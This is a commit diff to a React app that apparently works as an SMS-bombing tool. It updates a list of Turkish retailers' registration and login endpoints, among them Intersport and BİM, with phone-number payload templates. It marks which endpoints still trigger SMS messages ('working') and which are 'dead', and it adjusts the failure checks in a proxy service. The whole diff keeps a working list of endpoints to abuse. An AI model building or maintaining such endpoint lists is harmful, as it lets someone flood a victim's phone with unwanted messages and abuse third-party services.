

Before and after one commit to ilkayturna/Turna, a React (Vite) app: page / in a window 1280 px wide. Shown: the part 1167-1314 px from the top of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
fix: Bim + Intersport working (8 total) + remove status:false from hardFail

```diff
--- a/constants.ts
+++ b/constants.ts
@@ -57,6 +57,25 @@
     payloadInfo: '{"countryCode": "90", "phoneNumber": "5XXXXXXXXX"}',
     status: 'working',
     category: 'Yemek',
+  },
+  {
+    id: 'intersport',
+    name: 'Intersport',
+    url: 'https://www.intersport.com.tr/users/register/',
+    method: 'POST',
+    headers: { 'X-App-Type': 'akinon-mobile' },
+    payloadInfo: '{"phone": "05XXXXXXXXX", "first_name": "Test", "last_name": "User", "email": "{{EMAIL}}", "password": "Test123!", "confirm": true}',
+    status: 'working',
+    category: 'Spor',
+  },
+  {
+    id: 'bim',
+    name: 'BİM',
+    url: 'https://bim.veesk.net:443/service/v1.0/account/login',
+    method: 'POST',
+    payloadInfo: '{"phone": "5XXXXXXXXX"}',
+    status: 'working',
+    category: 'Market',
   },
   // ===== DEAD - SMS GÖNDERMİYOR (fastFail = sadece 1 deneme) =====
   {
@@ -170,17 +189,6 @@
     category: 'Giyim & Ev Eşyası',
   },
   {
-    id: 'intersport',
-    name: 'Intersport',
-    url: 'https://www.intersport.com.tr/users/register/',
-    method: 'POST',
-    headers: { 'X-App-Type': 'akinon-mobile' },
-    payloadInfo: '{"phone": "05XXXXXXXXX", "first_name": "Test", "last_name": "Test", "email": "{{EMAIL}}", "password": "Test123!", "confirm": true}',
-    status: 'dead',
-    fastFail: true,
-    category: 'Spor',
-  },
-  {
     id: 'massimo_dutti',
     name: 'Massimo Dutti',
     url: 'https://www.massimodutti.com/tr/api/auth/register/sendOtp',
@@ -199,16 +207,6 @@
     status: 'dead',
     fastFail: true,
     category: 'Teknoloji',
-  },
-  {
-    id: 'bim',
-    name: 'BİM',
-    url: 'https://bim.veesk.net:443/service/v1.0/account/login',
-    method: 'POST',
-    payloadInfo: '{"phone": "5XXXXXXXXX"}',
-    status: 'dead',
-    fastFail: true,
-    category: 'Market',
   },
   {
     id: 'happy_center',
--- a/services/proxy-core.ts
+++ b/services/proxy-core.ts
@@ -99,7 +99,6 @@
   const str = JSON.stringify(data).toLowerCase();
 
   const hardFail = [
-    '"status":false',
     '"issuccessful":false',
     '"smsrequired":false',
     '"success":false',
```
